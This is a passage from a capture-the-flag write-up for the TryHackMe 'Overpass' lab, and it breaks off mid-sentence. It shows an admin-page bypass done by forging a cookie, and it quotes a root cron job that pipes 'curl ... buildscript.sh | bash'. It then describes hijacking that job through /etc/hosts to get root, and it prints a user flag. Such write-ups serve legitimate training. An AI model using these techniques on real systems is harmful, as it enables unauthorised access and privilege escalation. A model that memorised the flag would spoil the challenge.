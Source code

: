 ```
room: https://tryhackme.com/room/overpass
Style: Unguided
Difficulty: Easy/Beginner
```
IP : 10.10.134.45

About us Info might be useful (Spoilers; It wasnt.):
```
  Ninja - Lead Developer
  Pars - Shibe Enthusiast and Emotional Support Animal Manager
  Szymex - Head Of Security
  Bee - Chief Drinking Water Coordinator
  MuirlandOracle - Cryptography Consultant
```

I first ran nmap and Gobuster to see if we can find some interesting things. (see /nmap/ folder in Github)

nmap did not give me any results that i cared about, but gobuster revealed some nice locations.
24
Found /admin/ with gobuster

Found Javascript checking if some cookie is set full-stop.

Executing 'Cookies.set("SessionToken",200);' works on getting Admin Access.


We found a SSH key here

```
LINK TO id_rsa
```

Login using this SSH key,

First User Flag
``thm{65c1aaf000506e56996822c6281e6bf7}``

```
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
Encrypted Password:

`,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

adding this string to .overpass on local system, then running program and asking all passwords produces:

``System 	 saydrawnlyingpicture``

linpeas found something interesting:


* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

This is called by Root, so we can overwrite overpass.thm and serve our own if we have access to /etc/hosts

I overwrite the ip in /etc/hosts with my own and host a webserver serving
